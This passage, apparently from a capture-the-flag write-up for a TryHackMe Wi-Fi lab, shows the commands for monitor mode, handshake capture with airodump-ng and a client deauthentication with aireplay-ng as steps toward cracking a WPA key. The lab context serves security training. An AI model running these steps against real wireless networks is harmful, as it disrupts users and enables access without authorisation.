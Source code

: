    ```cmd
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```

   ```cmd
   sudo airodump-ng wlan2
   ```

   AIRODUMP

   After a while, a client should pop-up.

   ><details><summary>Click for answer</summary></details>

4. What is the PSK after performing the WPA cracking attack?

   To start monitoring more specifically we can use:

   ```cmd
   sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
   ```

   ![Client](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_11_Client.png)

   Next step is to disconnect the client whilst monitoring traffic.

   ```cmd
   sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
   ```

   ![Disconnect](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_11_Disconnect.png)

   ![Captured](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_11_Captured.png)
